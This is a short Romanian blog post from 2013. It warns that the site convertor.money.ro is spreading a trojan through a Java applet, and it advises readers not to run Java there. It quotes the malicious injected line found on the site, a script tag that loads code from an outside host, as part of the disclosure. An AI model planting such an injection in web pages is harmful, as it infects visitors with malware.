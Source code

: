 ```yaml
---
id: 60
title: Convertor.money.ro imprastie malware!
date: 2013-01-08T11:45:22+00:00
author: Silviu Stroe
layout: post
guid: http://silviu-s.com/?p=60
permalink: /convertor-money-ro-imprastie-malware/
dpsp_networks_shares:
  - 'a:0:{}'
categories:
  - Articles
tags:
  - convertor
  - infectat
  - malware
  - money.ro
  - site
---
```

Site-ul convertor.money.ro imprastie  de peste 2 saptamani <a title="money.ro malware" href="http://i.imgur.com/bAoz5.png" target="_blank">malware</a> cu ajutorul unui applet java. Se pare ca site-ul are injectat pe prima linie un cod malitios

<pre class="brush: php; title: ; notranslate" title=""><script type="text/javascript" src="<a href="http://abrahamspath.org.uk/cb.php" target="_blank">http://abrahamspath.org.uk/cb.php</a>">"POC"</script>
</pre>

catre un site extern. Asa ca, daca folositi website-ul aveti grija sa nu rulati java pe aceasta pagina, pentru ca riscati sa va infectati cu un troian de toata frumusetea! 🙂
